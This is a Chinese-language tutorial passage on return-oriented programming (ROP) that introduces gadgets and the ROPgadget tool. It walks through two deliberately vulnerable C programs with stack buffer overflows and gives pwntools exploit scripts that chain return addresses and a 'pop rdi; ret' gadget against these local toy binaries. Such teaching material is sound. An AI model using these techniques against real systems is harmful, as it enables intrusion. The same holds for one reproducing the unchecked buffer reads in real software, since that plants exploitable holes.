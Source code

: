 ```yaml
---
comments: true
hide:
  - footer
---
```


前面我们已经知道了可以通过覆盖返回地址控制程序流，但是只能实现使程序执行到某一个地址继续执行，还不能实现复杂的逻辑。接下来，就一起来看看如何基于覆盖返回地址实现复杂逻辑。

## 面向返回编程（ROP）

### ROP原理

ROP的主要目的便是通过在合适的位置布置一连串的返回地址，从而实现相对复杂的逻辑。

#### 示例

以下面这个程序为例，目标是先后执行`func1`-`func3`

```c
// gcc test.c -no-pie -fno-stack-protector -g
#include <stdio.h>

void func1() { printf("func1 called\n"); }

void func2() { printf("func2 called\n"); }

void func3() { printf("func3 called\n"); }

int main() {
    char str[0x20];

    read(0, str, 0x50);

    return 0;
}
```

对应的exp脚本如下：

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-

from pwn import *

# context.log_level = "debug"
# context.terminal = ["konsole", "-e"]
context.arch = "amd64"

p = process("./a.out")

elf = ELF("./a.out")

func1_address = elf.sym["func1"]
func2_address = elf.sym["func2"]
func3_address = elf.sym["func3"]

payload = b"A" * 0x28
payload += p64(func1_address)
payload += p64(func2_address)
payload += p64(func3_address)

p.send(payload)

p.interactive()
```

单看这个脚本可能会有点抽象，下面是栈帧变化的动画演示：

![img](images/ROP/basic_rop.gif)

### gadget

现在我们已经能够实现通过在合适的位置布置地址实现按照一定的顺序调用函数。但是这还不够精细，毕竟我们现在还很难控制调用这些函数时传递的参数（可以先了解一下Linux下C语言的调用约定）。这里就需要引入一个新的概念——gadget。

gadget在这里指的是以`ret`指令结尾的代码片段，例如`leave; ret`就是一个很常用的gadget。我们可以利用各种合适的gadget拼凑出需要的程序逻辑。

####  获取gadget

获取gadget可以使用工具`ROPgadget`获取到elf文件中的大部分gadget。如下图

![image-20230727230856208](images/ROP/image-20230727230856208.png)

结果可以结合`grep`工具进行搜索，不过我更推荐结合fzf使用，但是这个需要写shell脚本，下面这个是我自己用的shell脚本，能够快速搜索，并把搜索结果存入剪贴板（使用的shell为fish，显示服务器为wayland）

```fish
function find_gadget -d "find gadget from binary file"
    set -l file $argv[1]
    set -l file_md5 (md5sum $file | cut -d ' ' -f 1)

    if ! test -f ./gadget-$file-$file_md5
        ROPgadget --binary $file > ./gadget-$file-$file_md5
    end
    
    set -l result (cat ./gadget-$file-$file_md5 | fzf)

    if test -z $result
        echo "No gadget selected."
        return
    end

    set -l addr (string sub --length 18 $result)

    wl-copy $addr

    echo "The offset of gadget '$result' has been saved to the clipboard."
end
```

#### 示例

已下面这个程序为例，目的是让程序输出`Hello, World!`：

```c
#include <stdio.h>

char *str = "Hello, World!";

void func1() { puts("func1 called"); }

int main() {
    char str[0x20];

    read(0, str, 0x50);

    return 0;
}
```

对应的exp脚本如下：

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-

from pwn import *

# context.log_level = "debug"
# context.terminal = ["konsole", "-e"]
context.arch = "amd64"

p = process("./a.out")

elf = ELF("./a.out")

puts_addr = elf.sym["puts"]
str_hello_world = 0x00402004
pop_rdi_ret = 0x0000000000401203

payload = b"A" * 0x28
payload += p64(pop_rdi_ret)
payload += p64(str_hello_world)
payload += p64(puts_addr)

p.send(payload)

p.interactive()
```

栈帧变化的动画演示：

![img](images/ROP/rop_gadget.gif)
